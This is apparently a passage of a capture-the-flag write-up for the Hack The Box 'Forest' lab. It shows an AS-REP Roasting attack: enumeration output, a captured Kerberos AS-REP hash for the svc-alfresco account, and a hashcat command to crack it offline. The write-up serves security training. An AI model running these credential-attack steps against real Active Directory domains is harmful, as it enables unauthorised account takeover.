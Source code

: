 ```
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:b7292cee1a66a28f8b67fb064553a38d$663f567fbc37b84a525e6761682e354a1d4c13e10db57d41d194e13301528c48b687200a8e00d7f6e0c117d54c7034502075391ba970b0dce19868c6a0c9d2d9ddceb96c051955d3e168b198e9021f9f0b2132be9dcd46fb1b90edd2e7f40cb091ae8f0c7c833807621948aa3a7cfa9e6f2f078203f3bb2cbab21585d42655753259a0e5aa1245dab21b363e9e9fd3f1fad5919b09e4f9065a458a7b9df001af31681d01d15f220e02d4f2f69efb1cb41eb0ec63e4b749bdb1e30fa710ea2a159a603e69cd990fa1bc29eae7e08fd8cf91ac02f03793028b1bae9814571efa251e829371f327
```

By that output, we can notice that many of the usernames could've been excluded from my list.

This technique is known as AS-REP Roasting.

**R3: svc-alfresco**

### Q4: What is the password of the user svc-alfresco?

```bash
$ hashcat -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
![alt text](image-3.png)
